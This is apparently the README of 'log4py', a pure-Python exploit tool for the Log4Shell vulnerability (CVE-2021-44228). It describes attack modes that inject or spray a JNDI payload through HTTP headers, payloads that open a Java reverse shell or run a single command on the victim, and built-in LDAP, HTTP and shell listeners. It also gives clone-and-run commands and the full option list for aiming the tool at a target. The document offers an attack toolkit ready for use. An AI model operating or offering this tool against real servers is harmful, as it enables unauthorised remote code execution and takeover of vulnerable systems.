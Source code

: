 # log4py
Pure python reverse shell for CVE-2021-44228 log4shell. Big thanks to [dotPY-hax/log4py](https://github.com/dotPY-hax/log4py) for the original pure python PoC and pre-compiled java bytecode.

## Features:
* Pure python3, no java required!
* Zero dependencies! Simply download and execute `python main.py`
* Built in LDAP, HTTP and ReverseShell listeners
* Easily custimizable command line arguments
* Different built-in attack modules:
	* Manual - Simply gives you the JNDI payload link for you to manually post to the target [default]
	* Header Attack - Specify URL, Method and Header to send the JNDI payload in
	* Shotgun - Specify URL and spray the JNDI header as many places as possible, hoping that one of them triggers loggin to log4j
* Different Payloads:
	* Pure Java Reverse Shell - Optionally specify shell to execute commands with. The log4py has built in interactive reverse shell listener! [default]
	* Execute Shell Command - Specify single command to execute on the target


# Usage:
Download repository:
```bash
git clone https://github.com/ItemizeNTNU/log4py
cd log4py
```
Then to run the exploit:
```bash
python3 main.py --ip <your callback ip>
```
Example output:
![Example outout of reverse shell](./docs/images/reverse-shell.png)

Then simply upload the JNDI string to the vulnerable log4j application.

The script starts 3 servers on your machine with default ports:
* LDAP server on port 49501
* HTTP server on port 49502
* Reverse Shell server on port 49503

# Options
Use `python3 main.py --help` for help on different options:
```java
usage: main.py [-h] [--ip IP] [--ldap-port {1..65535}] [--http-port {1..65535}] [--attack {ManualAttack,HTTPHeaderAttack,HTTPShotgunAttack}] [--payload {ReverseShell,ShellCommand}] [--once]
               [--specific-listener] [--list-attacks] [--list-payloads] [--attack-http-header-method {GET, POST, OPTIONS, ...}] [--attack-http-header-header HEADER_NAME]
               [--payload-reverse-shell-port {1..65535}] [--payload-reverse-shell-shell SHELL] [--payload-shell-command-cmd CMD]

Pure python Log4Shell Exploiter

optional arguments:
  -h, --help                                                  show this help message and exit
  --ip IP                                                     Callback ip that the victim server can reach you at (default: auto)
  --ldap-port {1..65535}                                      Port to listen at for the LDAP server (default: 49501)
  --http-port {1..65535}                                      Port to listen at for the HTTP server (default: 49502)
  --attack {ManualAttack,HTTPHeaderAttack,HTTPShotgunAttack}  Callback ip that the victim server can reach you at (default: ManualAttack)
  --payload {ReverseShell,ShellCommand}                       Java payload class to send (default: ReverseShell)
  --once                                                      If true, listeners will only listen for one connection then close (default: False)
  --specific-listener                                         If true, only listen on the specific --ip, else listen on 0.0.0.0 (default: False)
  --list-attacks                                              List all available attacks (default: False)
  --list-payloads                                             List all available payloads (default: False)
  --attack-http-header-method {GET, POST, OPTIONS, ...}       HTTP method to use for the HTTPHeaderAttack (default: GET)
  --attack-http-header-header HEADER_NAME                     Header to inject the JNDI payload to (default: None)
  --payload-reverse-shell-port {1..65535}                     Port to listen at for the reverse shell payload (default: 49503)
  --payload-reverse-shell-shell SHELL                         Shell to execute interactive commands with (default: /bin/sh)
  --payload-shell-command-cmd CMD                             Command to execute on the victim (default: None)
```

# Todo:
* More custimizable java payloads, possible optional integration with javac for auto compilation